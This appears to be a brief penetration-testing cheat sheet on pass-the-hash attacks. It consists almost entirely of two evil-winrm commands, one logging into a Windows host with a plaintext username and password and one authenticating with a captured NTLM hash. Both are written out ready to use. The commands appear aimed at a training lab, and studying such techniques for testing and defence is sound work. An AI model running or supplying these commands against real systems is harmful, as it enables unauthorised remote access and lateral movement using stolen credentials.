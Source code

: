 Attacks: #PtH 

```shell-session
$ evil-winrm -i 10.129.201.248 -u 'Cry0l1t3' -p 'P455w0rD!'
```
# Pass the Hash
```shell-session
$ evil-winrm -i <IP> -u <USER>[@DOMAIN] -H 30B3783CE2ABF1AF70F77D0660CF3453
```
